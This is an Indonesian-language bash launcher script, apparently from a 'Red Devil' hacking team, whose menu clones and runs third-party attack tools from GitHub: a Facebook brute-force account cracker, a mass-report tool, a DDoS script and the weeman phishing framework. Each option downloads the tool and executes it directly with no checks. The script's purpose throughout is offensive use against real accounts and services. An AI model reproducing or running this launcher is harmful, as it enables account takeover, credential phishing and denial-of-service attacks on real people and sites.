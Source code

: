 #usr/bin/bash
clear
bi='\033[34;1m' #biru
i='\033[32;1m' #ijo
pur='\033[35;1m' #purple
cy='\033[36;1m' #cyan
me='\033[31;1m' #merah
pu='\033[37;1m' #putih
ku='\033[33;1m' #kuning
# red devil
echo
echo
echo
echo $me" |"$me"==================================================="$me"|"
echo $me" |"$me" AUTHOR :"$me"TAUFIQ X"$me"                                  |"
sleep 1
echo $me" |"$me" TEAM  :"$me"RED DEVIL OFF"$me"                              |"
sleep 1
echo $me" |"$me" GITHUB :"$me"taufiqx/404"$me"                               |"
sleep 1
echo $me" |"$me" MEMBER :"$me"TAUFIQ X,RISKI,PANGLIMA CYBER DLL"$me"         |"
echo $pu" |"$pu"==================================================="$pu"|"
sleep 1
echo $pu" |"$pu"              PILIH TOOLS NYA TOL"$pu"                  |"
sleep 1
echo $pu" |"$pu"              MERAH PUTIH MERDEKA"$pu"                  |"
sleep 1
echo $py" |"$pu"==================================================="$pu"|"
sleep 2
echo
echo $ku"_______________________________________________________________"
sleep 1
echo $i"|"$i" 1"$i"|"$i" BRUTE FORCE "
sleep 1
echo $me"|"$me" 2"$me"|"$me" REPORT FB"
sleep 1
echo $ku"|"$ku" 3"$ku"|"$ku" DDOS "
sleep 1
echo $pu"|"$pu" 4"$pu"|"$pu" PSIHING"
sleep 1
echo $cy"|"$cy" 5"$cy"|"$cy" INSTALL BAHAN DLU TOL"
sleep 1
echo $bi"|"$bi" 6"$bi"|"$bi" KELUAR PROGRAM TOL"
echo $ku"_______________________________________________________________"
echo
echo $me"---"$pur"["$me"RED DEVIL OFF"$me"]"$pu"------"$pu"["$pu""pilih tools""$cy"]"
echo $ku"|"
read -p" ------>" pil

if [ $pil = 1 ]
then
clear
figlet -f slant "T U N G G G U"|lolcat
sleep 1
git clone https://github.com/FR13ND8/Fb-Cracker-v.3
cd Fb-Cracker-v.3
python2 crack.py
fi

if [ $pil = 2 ]
then
clear
figlet -f slant "T U N G G G U"|lolcat
sleep 1
git clone https://github.com/IlayTamvan/Report
cd Report
unzip Report.zip
python2 Report.py
fi

if [ $pil = 3 ]
then
clear
figlet -f slant "T U N G G G U"|lolcat
sleep 1
git clone https://github.com/MrTamfanX/MrDdos
cd MrDdos
ls
chmod +x *
ls
sh Tamfan-Ddos.sh
fi

if [ $pil = 4 ]
then
clear
figlet -f slant "T U N G G G U"|lolcat
sleep 1
git clone https://github.com/evait-security/weeman.git
chmod +x *
python2 weeman.py
fi

if [ $pil = 5 ]
then
clear
apt update && apt upgrade
apt install python2
pip2 install urllib3 chardet certifi idna requests
pkg install git
pip2 install mechanize
pkg install curl
pkg install ruby
pkg install gem
gem install lolcat
pkg install git
pkg install php
pkg install ruby cowsay toilet figlet
pkg install neofetch
pkg install nano
figlet -f slant "B E R H A S I L"|lolcat
fi

if [ $pil = 6 ]
then
clear
figlet -f slant "E X I T"|lolcat
sleep 2
echo $cy"OKE TOL THANKS YA DAH PAKAI TOOLS AKU"
sleep 2
echo $i"RED DEVIL OFF"
sleep 2
echo $pur">> Thanks Yang Sudah Support Saya <<"
exit
fi
